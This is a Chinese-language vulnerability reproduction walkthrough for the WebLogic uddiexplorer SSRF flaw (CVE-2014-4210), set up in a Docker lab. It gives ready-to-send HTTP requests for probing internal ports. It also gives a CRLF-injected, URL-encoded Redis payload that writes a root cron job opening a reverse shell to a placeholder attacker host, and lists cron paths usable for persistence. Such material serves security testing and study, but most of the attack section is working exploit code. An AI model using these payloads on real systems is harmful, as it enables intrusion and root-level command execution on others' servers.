





Weblogic uddiexplorer SSRF漏洞 CVE-2014-4210¶
漏洞描述¶
Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。
漏洞影响¶
Oracle WebLogic Server 10.0.2.0
Oracle WebLogic Server 10.3.6.0
环境搭建¶
Vulhub编译及启动测试环境：
docker-compose up -d
访问http://your-ip:7001/uddiexplorer/，无需登录即可查看uddiexplorer应用。

漏洞复现¶
SSRF漏洞存在于http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp，我们在burpsuite下测试该漏洞。访问一个可以访问的IP:PORT，如http://127.0.0.1:80：
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: your-vps-ip:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回did not have a valid SOAP content-type。

修改为一个不存在的端口，将会返回could not connect over HTTP to server。

通过错误的不同，即可探测内网状态。
反弹shell¶
Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入%0a%0d来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。
此处kali启动redis失败，转为CentOS vps进行复现。
首先，通过ssrf探测内网中的redis服务器（docker环境的网段一般是172.*），发现172.18.0.2:6379可以连通：

发送三条redis命令，将弹shell脚本写入/etc/crontab：
test
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/your-reverse-shell-ip/9999 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
aaa
进行url编码：
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fyour-reverse-shell-ip%2F9999%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
注意，换行符是“\r\n”，也就是“%0D%0A”。
将url编码后的字符串放在ssrf的域名后面，发送：
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.20.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fyour-reverse-shell-ip%2F9999%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: your-vps-ip:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
成功反弹：

最后补充一下，可进行利用的cron有如下几个地方：
- /etc/crontab 这个是肯定的
- /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
- /var/spool/cron/root是centos系统下root用户的cron文件
- /var/spool/cron/crontabs/root是debian系统下root用户的cron文件
开源POC¶
- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan